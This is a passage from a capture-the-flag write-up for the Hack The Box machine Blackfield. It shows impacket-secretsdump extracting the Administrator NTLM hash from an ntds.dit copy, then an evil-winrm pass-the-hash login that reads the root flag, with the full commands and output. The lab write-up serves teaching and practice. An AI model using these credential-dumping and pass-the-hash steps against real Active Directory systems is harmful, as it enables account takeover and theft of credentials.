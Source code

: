 I use `impacket-secretsdump -sam sam.sav -system system.sav -ntds ntds.dit -hashes lmhash:nthash LOCAL` to dump all local hashes from `ntds.dit`, which gets me the following Administrator account hash:

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```

# Administrator Access

I can use that hash to authenticate via WinRM, just like I previously did with `svc-backup`.

```text
ctf-htb-blackfield/loot [ main][?][⏱ 43s]
❯ evil-winrm -u administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.10.10.192

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
4375a629c7c67c8e29db269060c955cb
```